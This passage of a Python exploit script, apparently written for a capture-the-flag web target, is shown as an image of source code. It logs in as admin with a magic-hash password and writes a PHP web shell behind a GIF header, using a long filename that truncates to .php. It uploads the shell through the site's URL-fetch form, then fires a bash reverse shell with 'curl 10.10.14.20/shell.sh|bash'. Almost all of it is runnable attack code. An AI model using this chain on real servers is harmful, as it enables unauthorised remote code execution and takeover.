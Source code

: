 ```py
        thread.daemon = True                                                                                 
        thread.start()                                                                                       
    else:                                               
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()
        
# Let's login as admin
def loginAdmin(rhost):
    print("[+] Let's login as Admin [+]")
    url = "http://%s:80/login.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "admin", "password": "QNKCDZO"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] Login successss ! [+]")
    
# Let's create the malicious php file
def createPayload():
    print("[+] Creating the malicious file [+]")
    payload = "GIF89a;\n"
    payload += "<?php system($_REQUEST[\"cmd\"]); ?>"
    f = open("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6A.php.png", "a")
    f.write(payload)
    f.close()
    print("[+] Created !!!! [+]")
    
# Let's create the shell.sh file
def createShell(lhost,lport):
    print("[+] Creating the malicious shell file [+]")
    payload = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    f = open("shell.sh", "w")
    f.write(payload)
    f.close()
    print("[+] Created !!!! [+]")
    
# Let's upload the malicious php file
def uploadMalicious(rhost,lhost,malicious):
    print("[+] Uploading the malicious file [+]")
    url = "http://%s:80/upload.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded", "Upgrade-Insecure-Requests": "1"}
    data = {"url": "http://%s/%s" %(lhost,malicious)}
    upup = r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies)
    print("[+] Uploadeddededede ! [+]")
    upload_malicious = re.search('New name is (.*)', upup.text).group(1)
    upload_malicious = upload_malicious.removesuffix(".")
    folder = re.search('uploads/(.*);', upup.text).group(1)
    global upload_url
    upload_url = "uploads/" + folder + "/" + upload_malicious

# Trigger the reverse shell
def reverseShell(rhost,upload_url):
    print("[+] Now Let's Get The Reverse Shell!!!! [+]")
    payload = "cmd=curl+10.10.14.20/shell.sh|bash"
    urllib.parse.quote(payload, safe='')
    url = "http://%s:80/%s" %(rhost,upload_url)
    headers = {"Content-Type": "application/x-www-form-urlencoded", "Upgrade-Insecure-Requests": "1"}
    r.post(url, headers=headers, cookies=r.cookies, proxies=proxies, data=payload)
```